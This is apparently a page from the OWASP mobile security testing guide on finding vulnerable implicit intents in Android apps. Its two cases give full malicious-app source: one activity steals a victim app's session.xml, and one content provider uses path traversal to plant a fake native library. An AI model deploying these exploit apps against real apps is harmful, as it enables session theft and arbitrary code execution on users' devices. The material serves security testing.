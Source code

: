 # [MASTG-TEST-0026: Testing Implicit Intents](https://mas.owasp.org/MASTG/tests/android/MASVS-CODE/MASTG-TEST-0026/)
## Overview
When testing for implicit intents you need to check if they are vulnerable to injection attacks or potentially leaking sensitive data.
MASVS-CODE-4 / MSTG-PLATFORM-2 / May 08, 2023
## Static Analysis
Inspect the Android Manifest and look for any <intent> signatures defined inside blocks ↗ (which specify the set of other apps an app intends to interact with), check if it contains any system actions (e.g. `android.intent.action.GET_CONTENT`, `android.intent.action.PICK`, `android.media.action.IMAGE_CAPTURE`, etc.) and browse the source code for their occurrence.

For example, the following Intent doesn't specify any concrete component, meaning that it's an implicit intent. It sets the action android.intent.action.GET_CONTENT to ask the user for input data and then the app starts the intent by startActivityForResult and specifying an image chooser.

```
Intent intent = new Intent();
intent.setAction("android.intent.action.GET_CONTENT");
startActivityForResult(Intent.createChooser(intent, ""), REQUEST_IMAGE);
```
The app uses `startActivityForResult `instead of `startActivity`, indicating that it expects a result (in this case an image), so you should check how the return value of the intent is handled by looking for the `onActivityResult` callback. If the return value of the intent isn't properly validated, an attacker may be able to read arbitrary files or execute arbitrary code from the app's internal `/data/data/' storage. A full description of this type of attack can be found in the [following blog post](https://blog.oversecured.com/Interception-of-Android-implicit-intents).

## Case 1: Arbitrary File Read¶
In this example we're going to see how an attacker can read arbitrary files from within the app's internal storage `/data/data/<appname> `due to the improper validation of the return value of the intent.

The performAction method in the following example reads the implicit intents return value, which can be an attacker provided URI and hands it to `getFileItemFromUri`. This method copies the file to a temp folder, which is usual if this file is displayed internally. But if the app stores the URI provided file in an external temp directory e.g by calling getExternalCacheDir or `getExternalFilesDir` an attacker can read this file if he sets the permission` android.permission.READ_EXTERNAL_STORAGE`.
```
private void performAction(Action action){
  ...
  Uri data = intent.getData();
  if (!(data == null || (fileItemFromUri = getFileItemFromUri(data)) == null)) {
      ...
  }
}

private FileItem getFileItemFromUri(Context, context, Uri uri){
  String fileName = UriExtensions.getFileName(uri, context);
  File file = new File(getExternalCacheDir(), "tmp");
  file.createNewFile();
  copy(context.openInputStream(uri), new FileOutputStream(file));
  ...
}```
The following is the source of a malicious app that exploits the above vulnerable code.

AndroidManifest.xml
```
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
</application>
```
EvilContentActivity.java
```
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("file:///data/data/<victim_app>/shared_preferences/session.xml")));
    finish();
  }
}
```
If the user selects the malicious app to handle the intent, the attacker can now steal the session.xml file from the app's internal storage. In the previous example, the victim must explicitly select the attacker's malicious app in a dialog. However, developers may choose to suppress this dialog and automatically determine a recipient for the intent. This would allow the attack to occur without any additional user interaction.

The following code sample implements this automatic selection of the recipient. By specifying a priority in the malicious app's intent filter, the attacker can influence the selection sequence.
```
Intent intent = new Intent("android.intent.action.GET_CONTENT");
for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {
    intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);
    startActivityForResult(intent);
    return;
}
```
## Case 2: Arbitrary Code Execution¶
An improperly handled return value of an implicit intent can lead to arbitrary code execution if the victim app allows `content://` and `file://` URLs.

An attacker can implement a ContentProvider that contains public `Cursor query(...)` to set an arbitrary file (in this case lib.so), and if the victim loads this file from the content provider by executing copy the attacker's `ParcelFileDescriptor` openFile(...) method will be executed and return a malicious fakelib.so.

AndroidManifest.xml
```
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
  <provider android:name=".EvilContentProvider" android:authorities="com.attacker.evil" android:enabled="true" android:exported="true"></provider>
</application>
```
EvilContentProvider.java

```
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
    return matrixCursor;
}
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY);
}
```
EvilContentActivity.java

```
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("content:///data/data/com.attacker/fakelib.so")));
    finish();
  }
}
```